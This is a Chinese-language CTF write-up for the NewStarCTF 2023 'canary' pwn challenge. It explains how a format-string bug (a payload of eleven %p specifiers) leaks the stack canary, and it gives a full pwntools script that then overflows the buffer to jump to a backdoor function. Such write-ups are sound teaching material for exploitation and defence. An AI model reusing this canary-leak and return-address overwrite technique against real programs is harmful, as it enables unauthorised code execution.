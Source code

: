 ```yaml
---
title: canary
tags: [ctf-pwn,stack]
date: 2023-10-11 11:15:00
categories: [ctf-pwn]
excerpt: canary格式化字符串漏洞
---
```


### canary泄露

NewStarCTF 2023 canary：

![](/img/ctf-pwn/canary/1.jpg)

`__readfsqword(0x28u)`说明添加了canary，但是第一次输入只能输入32字节，距离把canary一块printf出来差了8字节，因此用格式化字符串漏洞把canary打印出来。



`printf`的参数中，rdi为第一次输入的格式化字符串，然后需要5个%p把rsi，rdx，rcx，r8，r9略过，然后再来6个%p（因为后面的参数在栈上，而canary是栈上第41-48字节，需要第六个%p才能将其打印出来）



然后第二次输入就是一个最简单的rop链了



```python
from pwn import *
from LibcSearcher import *
#p = process("./canary")
p = remote("node4.buuoj.cn", 28964)
e = ELF("./canary")
context.log_level="debug"

backdoor = e.sym["backdoor"]

payload = b"%p%p%p%p%p%p%p%p%p%p%p"

p.sendlineafter(b"Give me some gift?\n", payload)


p.recvuntil(b"Oh thanks,There is my gift:\n")

leak = p.recvline()

canary = eval(leak[-19:-1])

print(hex(canary))


p.recvuntil(b"Show me your magic\n")


payload = b'a' * 40 + p64(canary) + p64(0) + p64(backdoor)
p.sendline(payload)

p.interactive()
```

